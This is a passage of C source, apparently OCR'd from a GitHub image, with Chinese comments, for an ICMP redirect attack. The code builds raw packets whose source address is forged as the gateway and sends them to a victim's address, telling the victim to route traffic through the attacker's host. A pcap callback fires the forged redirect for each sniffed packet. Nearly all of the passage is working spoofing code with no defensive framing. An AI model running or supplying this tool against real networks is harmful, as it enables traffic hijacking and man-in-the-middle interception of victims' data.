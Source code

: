 ```c
    packet.ip.protocol = IPPROTO_ICMP; //协议
    packet.ip.check = 0; //首部检校和
    packet.ip.saddr = inet_addr(GATEWAY_IP); // 源地址伪造为网关
    packet.ip.daddr = inet_addr(TARGET_IP);  //目的地址将伪造的重定向包发给受害者的地址

    //填充icmp头
    packet.icmp.type = ICMP_REDIRECT;      // Redirect
    packet.icmp.code = 1; // Redrect for host
    packet.icmp.checksum = 0; //检校和
    packet.icmp.un.gateway = inet_addr(SOURCE_IP);
    // 去掉数据链路层头部后，拷贝剩余28字节
    memcpy(packet.data, (data + SIZE_ETHERNET), 28);
    packet.ip.check = in_cksum((unsigned short *)&packet.ip, sizeof(packet.ip));
    packet.icmp.checksum = in_cksum((unsigned short *)&packet.icmp, sizeof(packet.icmp) + 28);
    //构建目的地址
    target.sin_family = AF_INET;
    target.sin_addr.s_addr = inet_addr(TARGET_IP);
    /** 
     * sendto 将数据由指定的socket传给对方主机
     * params: int s, const void * msg, int len, unsigned int flags, const struct sockaddr * to, int tolen
     * (发送端套接字描述符，&packet-数据内容，待发送数据长度IP头+ICMP头（8）+IP首部+IP前8字节，flag标志位，目的网络地址，地址长度）
     * return: -1/size
    **/
    sendto(sockfd, &packet, 56, 0, (struct sockaddr *)&target, sizeof(target));
}

/** 
 * pcap_loop()的回调函数
 * params: u_char *args, const struct pcap_pkthdr *header,  const u_char *packet
 * (arg-pcap-loop的最后一个参数，pkthdr-pcap头包含何时嗅探数据包的信息和大小，packet-数据包）
 * return: void
**/
void got_packet(__u_char *arg, const struct pcap_pkthdr *pkthdr, const __u_char *packet)
{
    int sockfd; //socket描述符
    const int on = 1;
    /** 
     * socket 创建套接字
     * params: int domain, int type, int protocol
     * (AF_INET-IPv4网络通信, SOCK_RAW-原始套接字类型, IPPROTO_ICMP-第三层通信协议）
     * return: void
    **/
    if ((sockfd = socket(AF_INET, SOCK_RAW, IPPROTO_ICMP)) < 0)
    {
        printf("create sockfd error\n");
        exit(-1);
    }
    /** 
     * 开启IP_HDRINCL选项，由我们自己填充头部
     * params: sockfd, IPPROTO_IP, IP_HDRINCL, void *, socklen_t
     * (sockfd-套接字描述符, IPPROTO_IP-类型为IPv4套接字, IP_HDRINCL-由我们自己填充IP头部, &on-指向要设置的新值的缓冲区, sizeof(int)-新值大小）
     * return: -1/other
    **/
    if (setsockopt(sockfd, IPPROTO_IP, IP_HDRINCL, &on, sizeof(int)) < 0)
    {
        printf("set socket option error\n");
        exit(-1);
    }
    // 自己的ping程序
    icmp_redirect(sockfd, packet, 0);
}
```